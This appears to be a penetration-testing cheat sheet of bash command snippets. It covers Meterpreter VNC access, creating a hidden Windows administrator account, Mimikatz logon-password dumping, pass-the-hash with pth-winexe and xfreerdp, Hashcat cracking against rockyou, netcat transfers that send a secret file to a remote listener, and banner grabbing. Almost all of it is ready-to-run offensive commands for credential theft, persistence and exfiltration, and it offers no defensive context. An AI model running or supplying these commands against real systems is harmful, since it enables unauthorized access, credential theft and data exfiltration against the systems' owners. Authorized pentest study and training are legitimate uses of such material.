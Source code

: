 ### Meterpreter VNC 
{% highlight bash %}
run getgui -u admin -p 1234
run vnc -p 5043
{% endhighlight %}

### Add New user in Windows
{% highlight bash %}
net user test 1234 /add
net localgroup administrators test /add
{% endhighlight %}

### Mimikatz use
{% highlight bash %}
git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full
{% endhighlight %}

### Passing the Hash
{% highlight bash %}
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash //IP cmd

or

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP
{% endhighlight %}

### Hashcat password cracking
{% highlight bash %}
hashcat -m 400 -a 0 hash /root/rockyou.txt
{% endhighlight %}

## Netcat examples
{% highlight bash %}
c:> nc -l -p 31337
#nc 192.168.0.10 31337
c:> nc -v -w 30 -p 31337 -l < secret.txt
#nc -v -w 2 192.168.0.10 31337 > secret.txt
{% endhighlight %}

## Banner grabbing with NC
{% highlight bash %}
nc 192.168.0.10 80
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/4.0 
Referrer: www.example.com
<enter>
<enter>
{% endhighlight %}
